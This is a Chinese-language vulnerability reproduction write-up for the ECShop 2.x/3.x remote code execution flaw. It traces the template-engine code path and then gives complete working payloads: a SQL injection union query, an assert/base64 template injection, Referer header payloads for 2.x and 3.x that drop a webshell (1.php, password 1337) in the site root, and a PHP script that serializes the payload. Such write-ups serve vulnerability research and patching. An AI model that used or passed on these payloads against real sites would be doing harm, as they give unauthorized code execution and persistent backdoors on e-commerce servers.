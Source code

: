 ```yaml
---
title: ECShop <= 2.7.x 代码执行漏洞
id: zhfly2899
---
```


# ECShop <= 2.7.x 代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

ECShop（2.x、3.0.x、3.6.x）

## 三、复现过程

### 漏洞分析

![image](../img/315351a42101158884d8e475026cd7a6.png)

继续看fetch函数

![image](../img/15222025129f7fe93b99c1b5b34e71c0.png)

追踪_eval函数

![image](../img/bda32e1de990340a32bcabf84429ed4f.png)

$position_style变量来源于数据库中的查询结构

![image](../img/833281010a69127b5cd34b1d88811da2.png)

然后我们继续构造SQL注入，因为这段sql操作 order by部分换行了截断不了 所以需要在id处构造注释来配合num进行union查询

![image](../img/f221e4066f4008b5692267e409b1cb74.png)

payload

```
SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop27`.`ecs_ad` AS a LEFT JOIN `ecshop27`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1535678679' AND end_time >= '1535678679' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,2,3,4,5,6,7,8,9,10-- - 
```

函数中有一个判断

![image](../img/0cf87b7a46edfe6e94127aef1db5a282.png)

我们 id传入’/*

num传入*/ union select 1,0x272f2a,3,4,5,6,7,8,9,10– -就能绕过了

![image](../img/566268a3990dc9672fce637c26bd0809.png)

var_dump一下

![image](../img/3d4ca5bec9d0c3a524a90e295d3c7c00.png)

![image](../img/17bce7fc7001c17d55c85ebf25800af4.png)

再看fetch函数,传入的参数被fetch_str函数处理了

![image](../img/a900184e2f2f7f715035f1a952feebee.png)

追踪fetch_str函数，这里的字符串处理流程比较复杂

![image](../img/9bd3ff6fce74248001895cc898d07721.png)

```
return preg_replace("/{([^\}\{\n]*)}/e", "\$this->select('\\1');", $source); 
```

这一行意思是比如$source是xxxx{$asd}xxx,那么经过这行代码处理后就是返回this->select(‘$asd’)的结果

看看select函数

![image](../img/387ba5e94b7fa8b2b80f0a270d9fde82.png)

第一个字符为$时进入$this->get_val函数

![image](../img/af9e246b62a4b343fd6037300336c75f.png)

我们$val没有.$又进入make_var函数

![image](../img/c4e46ca5bc7f4e0d7c3a1969a5b592fd.png)

最后这里引入单引号从变量中逃逸

![image](../img/be2f84284e3e7df488cd3ca731109938.png)

我们要闭合_var所以最终payload是

```
{$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEudHh0JywnZ2V0c2hlbGwnKQ=='));//}xxx 
```

会在网站跟目录生成1.txt 里面内容是getshell

![image](../img/751ffc79757ae2746d96208ab697d222.png)

### 2.x

phpinfo():

```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca 
```

webshell:

```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";} 
```

会在网站根目录生成`1.php`，密码：`1337`

### 3.x

phpinfo():

```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a 
```

webshell:

```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a 
```

会在网站根目录生成`1.php`，密码：`1337`

### 小脚本

下面给出一个序列化的php脚本（第9个位置就是你想要的）：

```
<?php
$arr=array('num'=>'*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4575634768774A79776E50443977614841675A585A686243676B58314250553152624F546C644B543867506963702729293B2F2F7D787878,10-- -','id'=>'\'/*');
echo serialize($arr);
?> 
```

## 参考链接

> https://cloud.tencent.com/developer/article/1333449